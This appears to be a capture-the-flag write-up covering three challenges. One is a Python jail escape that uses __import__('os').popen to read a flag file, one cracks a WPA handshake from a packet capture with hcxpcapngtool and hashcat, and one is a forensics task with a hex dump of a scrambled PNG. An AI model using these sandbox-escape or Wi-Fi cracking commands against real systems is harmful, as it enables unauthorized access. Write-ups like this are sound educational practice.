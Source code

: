 
```
>>print(f"{__import__('os').listdir('/home/pctf')}") 

['.dockerignore', 'MLjail', 'ReadME.md', 'docker-compose.yml', 'Dockerfile', 'entrypoint.sh', '.gitignore']

>>print(f"{__import__('os').listdir('/home/pctf/MLjail')}") 

['mlmodel', 'ReadME.md', 'app.py', 'requirements.txt', 'flag.txt', 'tags', 'training_data'] 

>>print(f"{__import__('os').popen('cat MLjail/flag.txt).readlines()}") 

Oops, something broke: f-string: unterminated string (<string>, line 1)

>>print(f"{__import__('os').popen('cat MLjail/flag.txt').readlines()}") 

['PCTF{M@chin3_1earning_d0_be_tR@nsformati0na1_1818726356}']
```

## WPA - misc

i solved this challenge from my phone, basically it gave you a wireshark cap file that contained a WPA handshake

we could so extract it and crack the password with aircrack

here's the official hashcat website for cap2hashcat
https://hashcat.net/cap2hashcat/

or you could run hcxpcapngtool

`hcxpcapngtool -o hash.hc22000 -E wordlist savedcap.cap`

so now we crack with hashcat

`hashcat -m 22000 hash.hc22000 rockyou.txt`

the cracked password was
`qazwsxedc`


`PCTF{qazwsxedc}`

# Backdoor CTF 2023

## forenscript - forensics

first of all you get a.bin file
at first glance there is nothing
then i used file or binwalk but still nothing 
until i tried to get a xxd

```
00000000: 474e 5089 0a1a 0a0d 0d00 0000 5244 4849  GNP.........RDHI
00000010: 460c 0000 a504 0000 0000 0608 3dab 1f00  F...........=...
00000020: 0000 007c 4752 7301 ceae 0042 0000 e91c  ...|GRs....B....
00000030: 4167 0400 0000 414d fc0b 8fb1 0000 0561  Ag....AM.......a
00000040: 4870 0900 0000 7359 0000 871d 8f01 871d  Hp....sY........
00000050: 0065 f1e5 49e3 ec00 7854 4144 3ffc ec5e  .e..I...xTAD?..^
00000060: 1add 6dab f7ea 6bd6 302a 48a8 a311 3032  ..m...k.0*H...02
00000070: c2c0 acc2 cd14 4558 3363 444c f09c 93a3  ......EX3cDL....
00000080: 06a6 2604 ccc0 7082 10b0 b0c8 8181 3f33  ..&...p.......?3
00000090: 8814 214a bba7 5be1 f6f6 eeed 8e6b 1bfd  ..!J..[......k..

```
